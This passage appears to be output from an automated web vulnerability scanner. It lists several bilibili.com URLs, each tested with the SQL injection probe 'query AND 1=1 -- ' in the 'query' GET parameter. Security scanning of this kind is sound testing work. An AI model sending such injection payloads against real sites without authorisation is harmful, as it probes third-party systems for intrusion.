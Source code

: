   
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/topic/123.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/topic/123.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/topic/111.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/topic/111.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/video/av14227171/?query=query+AND+1%3D1+--+](https://www.bilibili.com/video/av14227171/?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/v/cinephile/?query=query+AND+1%3D1+--+](https://www.bilibili.com/v/cinephile/?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  
  * Parameter: `query`
  
  
  * Attack: `query AND 1=1 -- `
  
  
  
  
* URL: [https://www.bilibili.com/topic/integrated-9.html?query=query+AND+1%3D1+--+](https://www.bilibili.com/topic/integrated-9.html?query=query+AND+1%3D1+--+)
  
  
  * Method: `GET`
  
  